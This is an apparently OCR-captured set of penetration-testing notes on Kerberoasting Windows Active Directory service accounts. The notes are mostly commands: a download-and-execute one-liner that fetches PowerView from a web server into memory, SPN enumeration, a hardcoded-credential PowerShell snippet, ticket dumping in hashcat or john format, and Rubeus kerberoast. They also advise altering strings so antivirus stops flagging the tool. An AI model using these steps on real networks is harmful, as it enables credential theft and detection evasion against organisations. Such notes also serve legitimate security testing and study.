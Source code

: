                     -----port 88

                        -----Kerberoast

    Kerberoasting involves requesting a Kerb Service Ticket (TGS) from a Windows Domain Machine or Kali Box using something like GetUserSPN’s.py. The problem with TGS is once the the DC looks up the target SPN it encrypts the TGS with the NTLM Password Hash of the targeted user account.

    !impacket GetUserSPN’s.py
    SPN=Service Principal Name


-From Windows

            PowerView

    Enumeretating

    IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

    !Defender will catch this propably based on strings

    Now with PowerView in memory on a Domain-Joined Machine we can run

    Get-DomainUser -SPN

    OR using credetials

    $secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)

    Get-DomainUser -SPN -Credential $cred


    Exploit

    Now with the target service accounts in our scopes we can actually request a ticket for cracking which couldn’t be easier with PowerView.ps1

    Get-DomainSPNTicket -SPN <spn> -OutputFormat {hashcat,john} -Credential $cred



            Rubeus(https://github.com/GhostPack/Rubeus`)

    
    Enumeration

    using powershell

    get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate

    dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
    (servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt


    Exploit

    To get Rubeus you will actually need Visual Studio 2017 or anything that can compile .NET. In my case I use Visual Studio and build myself an assembly
    Rubeus is only detected by one AV vendor on Virus Total however if your AV is flagging it just change some strings and comments and rebuild the project and your AV will shut up. 

    First we can try to Roast all Users in the Current Domain (May be Noise)
    PS > .\Rubeus kerberoast
